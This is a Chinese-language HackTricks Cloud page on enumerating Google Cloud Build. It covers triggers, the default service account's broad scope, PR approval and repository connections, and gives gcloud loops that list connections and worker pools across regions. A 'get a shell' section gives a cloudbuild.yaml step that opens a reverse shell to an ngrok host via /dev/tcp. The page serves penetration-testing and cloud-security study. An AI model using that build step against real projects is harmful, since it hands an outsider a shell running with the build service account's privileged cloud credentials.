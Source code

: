 # GCP - Cloud Build Enum

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，支持多种编程语言。它允许开发人员**自动构建、测试和部署代码**，同时提供灵活性来定制构建步骤和工作流程。

每个Cloud Build触发器**与Cloud存储库相关联，或直接连接到外部存储库**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到从这里或Cloud存储库中窃取Github/Bitbucket令牌的方法，因为当存储库被下载时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而Github不是由客户端访问的。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收PR的分支
- **手动调用**
- **Pub/Sub消息**：指定主题
- **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有3个选项：

- 一个yaml/json，**指定要执行的命令**。通常是：`/cloudbuild.yaml`
- 只能在Web控制台和cli中“内联”指定一个
- 最常见的选项
- 适用于未经身份验证的访问
- 一个**Dockerfile**用于构建
- 一个**Buildpack**用于构建

### SA权限

**服务帐号具有`cloud-platform`范围**，因此可以**使用所有特权**。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不会授予任何权限，但很容易给予一些权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 批准

可以配置Cloud Build以**要求对构建执行进行批准**（默认情况下已禁用）。

### PR批准

当触发器是PR时，因为**任何人都可以对公共存储库执行PR**，所以仅仅允许**使用任何PR执行触发器**是非常危险的。因此，默认情况下，只有所有者和协作者才能**自动执行触发器**，为了使用其他用户的PR执行触发器，所有者或协作者必须评论`/gcbrun`。

<figure><img src="../../../.gitbook/assets/image (150).png" alt="" width="563"><figcaption></figcaption></figure>

### 连接和存储库

可以通过以下方式创建连接：

- **GitHub：**它将显示一个OAuth提示，请求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub企业版：**它将要求安装**GithubApp**。将创建并存储来自您的GitHub企业主机的**身份验证令牌**，作为**Secret Manager**的秘密。
- **GitLab / 企业版：**您需要提供API访问令牌和读API访问令牌，这将存储在**Secret Manager**中。

生成连接后，您可以使用它来**链接Github帐户有权限访问的存储库**。

此选项可通过按钮使用：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，通过此方法连接的存储库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接存储库

这与**`连接`**不同。这允许以**不同**方式访问**Github或Bitbucket**存储库，但**不会生成连接对象，但会生成存储库对象（第一代）。**

此选项可通过按钮使用：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成新的存储空间来存储触发器的文件**。例如，在GCP提供的示例中发生了这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
一个名为 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 的存储桶被创建用于存储一个包含要使用的文件的 `.tgz` 文件。

### 获取 shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
在Cloud Build中安装gcloud：

```bash
RUN apt-get update && apt-get install -y wget
RUN wget https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-sdk-333.0.0-linux-x86_64.tar.gz
RUN tar zxvf google-cloud-sdk-333.0.0-linux-x86_64.tar.gz
RUN ./google-cloud-sdk/install.sh
```
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 枚举

您可以在构建配置和日志中找到敏感信息。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 漏洞利用后期阶段

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}
